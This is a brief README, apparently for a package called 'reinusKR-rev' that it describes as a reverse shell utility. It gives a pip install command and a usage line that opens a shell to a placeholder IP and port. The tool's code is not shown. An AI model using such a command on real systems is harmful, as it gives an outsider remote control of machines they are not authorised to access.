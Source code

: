 # reinusKR-rev

A reverse shell utility

## Installation

```bash
pip install reinusKR-rev
```

## Use

```bash
python3 reinusKR-rev.py --ip [IP] --port [PORT] --shell [BASH]
```
